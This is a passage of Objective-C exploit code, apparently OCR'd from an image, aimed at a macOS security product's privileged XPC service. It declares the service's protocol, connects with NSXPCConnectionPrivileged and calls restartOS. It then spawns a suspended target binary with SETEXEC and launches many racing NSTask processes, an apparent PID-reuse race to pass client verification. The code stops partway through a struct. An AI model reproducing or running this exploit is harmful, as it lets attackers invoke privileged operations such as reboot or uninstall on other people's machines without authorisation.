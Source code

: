 ```objectivec

extern char **environ;

// defining necessary protocols
@protocol ProtectionService
- (void)startDatabaseUpdate;
- (void)restoreApplicationLauncherWithCompletion:(void (^)(BOOL))arg1;
- (void)uninstallProduct;
- (void)installProductUpdate;
- (void)startProductUpdateWith:(NSUUID *)arg1 forceInstall:(BOOL)arg2;
- (void)buildPurchaseSiteURLWithCompletion:(void (^)(long long, NSString *))arg1;
- (void)triggerLicenseRelatedChecks;
- (void)buildRenewalLinkWith:(NSUUID *)arg1 completion:(void (^)(long long, NSString *))arg2;
- (void)cancelTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)startTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)unredeemLicenseKeyWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)applyLicenseWith:(NSUUID *)arg1 key:(NSString *)arg2 completion:(void (^)(long long))arg3;
- (void)controlProtectionWithRawFeatures:(long long)arg1 rawOperation:(long long)arg2;
- (void)restartOS;
- (void)resumeScanJob;
- (void)pauseScanJob;
- (void)stopScanJob;
- (void)startScanJob;
- (void)disposeOperationBy:(NSUUID *)arg1;
- (void)subscribeTo:(long long)arg1;
- (void)pingWithTag:(NSUUID *)arg1 completion:(void (^)(NSUUID *, long long))arg2;
@end

void child() {

    // send the XPC messages
    NSXPCInterface *remoteInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProtectionService)];
    NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:MACH_SERVICE options:NSXPCConnectionPrivileged];
    xpcConnection.remoteObjectInterface = remoteInterface;

    [xpcConnection resume];
    [xpcConnection.remoteObjectProxy restartOS];

    char target_binary[] = BINARY;
    char *target_argv[] = {target_binary, NULL};
    posix_spawnattr_t attr;
    posix_spawnattr_init(&attr);
    short flags;
    posix_spawnattr_getflags(&attr, &flags);
    flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
    posix_spawnattr_setflags(&attr, flags);
    posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

bool create_nstasks() {

    NSString *exec = [[NSBundle mainBundle] executablePath];
    NSTask *processes[RACE_COUNT];

    for (int i = 0; i < RACE_COUNT; i++) {
        processes[i] = [NSTask launchedTaskWithLaunchPath:exec arguments:@[ @"imanstask" ]];
    }

    int i = 0;
    struct timespec ts = {
        .tv_sec = 0,
```